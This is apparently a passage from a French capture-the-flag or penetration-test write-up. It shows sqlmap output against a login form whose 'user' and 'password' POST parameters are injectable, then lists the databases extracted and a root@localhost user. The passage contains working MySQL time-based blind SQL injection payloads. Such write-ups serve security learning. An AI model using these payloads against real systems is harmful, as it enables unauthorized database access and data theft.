 ```bash
[09:46:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
--- snip ---
[09:46:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[09:46:38] [INFO] POST parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[09:46:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[09:46:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[09:46:38] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[09:52:01] [INFO] testing 'Generic UNION query (52) - 21 to 40 columns'
[09:52:02] [INFO] testing 'Generic UNION query (52) - 41 to 60 columns'
[09:52:02] [INFO] testing 'Generic UNION query (52) - 61 to 80 columns'
[09:52:02] [INFO] testing 'Generic UNION query (52) - 81 to 100 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 1 to 20 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 21 to 40 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 41 to 60 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 61 to 80 columns'
[09:52:02] [INFO] testing 'MySQL UNION query (52) - 81 to 100 columns'
[09:52:02] [INFO] checking if the injection point on POST parameter 'user' is a false positive
POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[09:53:52] [INFO] testing if POST parameter 'password' is dynamic
--- snip ---
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 4549 HTTP(s) requests:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test&password=test' AND (SELECT 2765 FROM (SELECT(SLEEP(5)))JfmU)-- ZRgb&s=Submit

Parameter: user (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 1752 FROM (SELECT(SLEEP(5)))ArNm)-- pnyG&password=test&s=Submit
---
```

et j'ai pu extraire quelques infos :

```
available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

current user: 'root@localhost'
```
